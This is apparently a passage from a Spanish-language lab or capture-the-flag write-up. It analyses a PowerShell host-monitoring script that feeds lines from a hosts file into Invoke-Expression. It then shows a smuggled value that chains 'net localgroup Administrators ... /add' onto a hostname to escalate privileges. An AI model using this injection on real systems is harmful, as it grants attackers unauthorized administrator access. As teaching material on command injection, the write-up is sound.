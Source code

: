 ```powershell
                    {$OutageHosts.Remove($_)}
                }
            }
        else
            {
                # First time down create the list and send email
                Write-Host "Adding $_ to OutageHosts."
                $OutageHosts = @{$_=(get-date)}
                $Body = "$_ has not responded for 5 pings at $Now"
                Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                 -Subject "Host $_ is down" -SmtpServer $smtpserver
            }
       }
    }
}
# Report to screen the details
$log = "Last run: $(Get-Date)"
write-host $log
Set-Content -Path C:\scripts\log.txt -Value $log
Write-Host "Available count:"$available.count
Write-Host "Not available count:"$notavailable.count
Write-Host "Not available hosts:"
$OutageHosts
Write-Host ""
Write-Host "Sleeping $SleepTimeOut seconds"
sleep $SleepTimeOut
if ($OutageHosts.Count -gt $MaxOutageCount)
{
    # If there are more than a certain number of host down in an hour abort the script.
    $Exit = $True
    $body = $OutageHosts | Out-String
    Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
     -Subject "More than $MaxOutageCount Hosts down, monitoring aborted" -SmtpServer $smtpServer
}
}
while ($Exit -ne $True)
```
Al ejecutarlo obtenemos un error de permisos al no ser Britanny, si miramos de cerca podemos ver que hay una llamada un tanto peligrosa
```
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p
```
Veamos lo que hace Invoke-Expression
```
The Invoke-Expression cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without Invoke-Expression, a string submitted at the command line is returned (echoed) unchanged.
```
Es decir cualquier cosa que lee del archivo va a ser interpretada por powershell como un comando de la siguiente manera
```
Test-Connection -ComputerName CMD -Count 1 -ea silentlycontinue
```
Asi que podemos hacer lo siguiente con añadir "domain.com;net localgroup Administrators bleu /add" al archivo de los hosts
```
Test-Connection -ComputerName domian.com;net localgroup Administrators buse /add -Count 1 -ea silentlycontinue
```
Obstaculo: no somos brytany
Fortaleza: Somos BUILTIN\Account Operators

